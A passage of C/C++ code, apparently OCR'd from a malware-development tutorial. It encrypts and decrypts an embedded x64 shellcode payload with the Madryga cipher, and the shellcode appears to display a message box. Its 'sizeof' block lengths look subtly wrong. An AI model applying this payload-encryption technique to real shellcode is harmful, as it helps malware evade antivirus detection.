 ```cpp
  }
}

// encrypt payload with padding
void madryga_encrypt_payload(unsigned char *payload, int payload_len, uint64_t key) {
  int i;
  for (i = 0; i < payload_len / BLOCK_SIZE; i++) {
    madryga_encrypt(payload + i * BLOCK_SIZE, sizeof(payload + i * BLOCK_SIZE), key);
  }
  // check if there are remaining bytes
  int remaining = payload_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = {0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90};
    memcpy(pad, payload + (payload_len / BLOCK_SIZE) * BLOCK_SIZE, remaining);
    madryga_encrypt(pad, sizeof(pad), key);
    memcpy(payload + (payload_len / BLOCK_SIZE) * BLOCK_SIZE, pad, remaining);
  }
}

// decrypt payload
void madryga_decrypt_payload(unsigned char *payload, int payload_len, uint64_t key) {
  int i;
  for (i = 0; i < payload_len / BLOCK_SIZE; i++) {
    madryga_decrypt(payload + i * BLOCK_SIZE, sizeof(payload + i * BLOCK_SIZE), key);
  }
  // check if there are remaining bytes
  int remaining = payload_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = {0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90};
    memcpy(pad, payload + (payload_len / BLOCK_SIZE) * BLOCK_SIZE, remaining);
    madryga_decrypt(pad, sizeof(pad), key);
    memcpy(payload + (payload_len / BLOCK_SIZE) * BLOCK_SIZE, pad, remaining);
  }
}

// main function
int main() {
  unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  int my_payload_len = sizeof(my_payload);
```